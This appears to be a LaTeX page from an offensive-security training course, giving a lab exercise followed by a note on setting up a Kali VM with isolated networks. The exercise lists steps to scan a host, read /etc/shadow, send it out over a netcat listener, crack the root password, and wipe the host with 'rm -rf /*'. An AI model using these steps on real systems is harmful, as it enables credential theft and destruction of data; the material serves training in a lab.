\documentclass[a4paper,11pt]{report}
\begin{document}
				\begin{enumerate}
					\item Use ``fping'' to check whether the remote host is running and find which IP address it has. 
						The command for this is ``fping -g XXX.XXX.XXX.0/25''. 
					\item Use ``SSH to get command line access to the remote host. 
					\item Cat/Less/vim/nano ``/etc/shadow'' and copy the root password to your system. 
						\begin{itemize}
							\item If you would like to make this more interesting, manually send the file to your system. 
							\item Set up a nc listener on any high port with ``nc -l -p XXXX > <output file>''. 
							\item Send the file using ``nc -p XXXX <local host IP> < <input file>''. 
							\item The file should now be on your machine called ``<output file>''. 
						\end{itemize}
					\item Open Johnny and tell it to use the file that you created in the last step. 
					\item switch user to the root account using ``su root'' and the password that Johnny gave you.  
					\item Run the command ``rm -rf /* ''. 
					\item You have now successfully wiped the remote host. 
				\end{enumerate}
			\subsubsection{Hard Course: Setting up a VM and installing Kali Rolling}
				This session will teach you both how to set up a VM in VMware Workstation and install and configure Kali Rolling within it. 
				This will be important to you as it is your main means of security to ensure that you are not attacking a target that you shouldn't be. 
				With properly configured VMs and virtual networks, 
				you cannot attack the wrong target, but without them, 
				a single mistype and you could be attacking a completely different target. 
				
\end{document}

